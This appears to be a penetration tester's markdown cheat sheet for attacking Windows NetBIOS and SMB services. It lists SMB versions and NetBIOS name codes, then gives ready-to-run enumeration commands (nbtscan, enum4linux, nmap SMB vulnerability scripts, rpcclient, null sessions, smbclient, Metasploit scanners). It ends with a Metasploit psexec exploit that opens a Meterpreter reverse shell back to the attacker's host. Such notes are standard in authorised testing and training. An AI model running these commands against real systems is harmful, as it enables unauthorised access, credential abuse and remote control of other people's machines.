 # NetBios (Windows)
- SMB1: Windows 2000, XP, 2003 
	-  eternal blue
- SMB2: Vista SP1, 2008 
- SMB2.1: 7 and 2008 R2 
- SMB3: 8 and Windows 2012 
##### Unique Name
- assigned to a single host

| Code | Unique Name                        |
| :--- | :--------------------------------- |
| 00   | Workstation Service (hostname)     |
| 03   | Windows Messenger service<br>      |
| 06   | Remote Access Service              |
| 20   | File Service (Host Record)         |
| 21   | Remote Access Service client       |
| 1B   | Domain Master Browser (Primary DC) |
| 1D   | Master Browser                     |
##### Group Name
- Name can be shared across multiple hosts

| Code | Group Name                                  |
| :--- | :------------------------------------------ |
| 00   | Workstation Service (workgroup/domain name) |
| 1C   | Domain Controllers for a domain             |
| 1E   | Browser Service Elections                   |


## Enumeration

##### nbtscan for IP, MAC, and Hostname
- udp 137
```bash
nbtscan -r [IP]
```
```bash
nbtscan -r [IP]/[CIDR]
```

##### nmblookup
```bash
nmblookup -A [IP]
```

#### Enum4linux
```bash
enum4linux -a [IP]
```

##### nmap
```bash
nmap –p 135, 445 –script=smb-vulns,smb-os-discovery [IP]
```
```bash
nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smbv2-enabled.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms17-010.nse, smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse,smbv2-enabled.nse [IP] -p 135-139,445
```


### RPCclient
- requires authentication

```bash
rpcclient -U "[USER]" [IP]
```

##### Shows server information
```bash
srvinfo
```

##### Enumerate domain users
```bash
enumdomusers
```

##### Get domain password policy information
```bash
getdompwinfo
```

##### Query domain information (e.g., domain SID, name, etc.)
```bash
querydominfo
```

##### List shared resources (basic share listing)
```bash
netshareenum
```

##### List all shared resources (more complete)
```bash
netshareenumall
```

### Null Session (net)
```bash
net use \\[IP]\[SHARE] "" /u:"" 
```
```bash
net view \\[IP]
```

### SMBMAP

##### Enumerate SMB Shares on Target Host
```bash
Smbmap -H [IP] -R --depth [5]
```

### Smbclient

##### Enumerate SMB shares
```bash
smbclient -L //[IP]
```

##### Enumerate SMB shares (Null Session)
```bash
smbclient -L //[IP] -N
```

##### Authenticated Acess 
```bash
smbclient //[IP]/[SHARE] -U [USER]
```

### Metasploit

##### Enumerate RID's
```bash
use auxiliary/scanner/netbios/nbname
set RHOSTS [IP]
run
```

##### Enumerate SID's
```bash
use auxiliary/scanner/smb/smb_lookupsid
set RHOSTS [IP]
set SMBUser [username]
set SMBPass [password]
run
```


## Exploitation

### Metasploit

##### psexec
```bash
use exploit/windows/smb/psexec
set RHOSTS [IP]
set SMBUser [username]
set SMBPass [password]
set LHOST [Your IP]
set LPORT [Your Port]
set PAYLOAD windows/meterpreter/reverse_tcp
run
```